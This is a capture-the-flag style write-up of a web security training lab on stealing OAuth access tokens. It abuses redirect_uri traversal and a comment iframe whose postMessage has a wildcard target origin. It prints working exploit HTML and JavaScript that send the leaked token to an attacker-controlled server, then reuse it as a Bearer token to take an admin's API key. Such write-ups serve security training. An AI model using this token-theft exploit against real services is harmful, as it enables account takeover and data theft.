

# Stealing OAuth access tokens via a proxy page

**Date:** 10, August, 2021

**Author:** Dhilip Sanjay S

---

## Task

- This lab uses an OAuth service to allow users to log in with their social media account. 
- **Flawed validation** by the OAuth service makes it possible for an attacker to **leak access tokens to arbitrary pages** on the client application.

- To solve the lab, identify a secondary vulnerability in the client application and use this as a proxy to steal an access token for the admin user's account.

- Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.

- The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

- You can log in via your own social media account using the following credentials: `wiener:peter`.

---

## Solution

- The comment section of the blog is an iframe, which uses `postMessage()`:

```js
parent.postMessage({type: 'onload', data: window.location.href}, '*')
function submitForm(form, ev) {
    ev.preventDefault();
    const formData = new FormData(document.getElementById("comment-form"));
    const hashParams = new URLSearchParams(window.location.hash.substr(1));
    const o = {};
    formData.forEach((v, k) => o[k] = v);
    hashParams.forEach((v, k) => o[k] = v);
    parent.postMessage({type: 'oncomment', content: o}, '*');
    form.reset();
}        
```


- On loading, there is a post message made to the parent window, with the URL as such in the data.
- The transfer origin is also set to `*`.



### Exploit code

```html
<iframe src="https://oauth-ac731f1e1e8b2c638026bd5c021700f9.web-security-academy.net/auth?client_id=hmu084l9x487ob0rhph0d&redirect_uri=https://ac5c1f5d1e832c51805ebd05001000b2.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-391999832&scope=openid%20profile%20email">
</iframe>

<script>
window.addEventListener('message', function(e) {
fetch("/" + encodeURIComponent(e.data.data))       
}, false)
</script>
```

### Access Token

- We get the access token in the logs of the exploit server.



- To get only the access_token from the data, use `e.data.data.split("#")[1].split("&")[0]` in the script.



### API Key

- Now in the OAuth flow - `/me` request, replace the **Bearer** token with admin's token.
- You'll get the API key. Submit it to solve the lab!



---

## References

[Post Message in Javascript](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)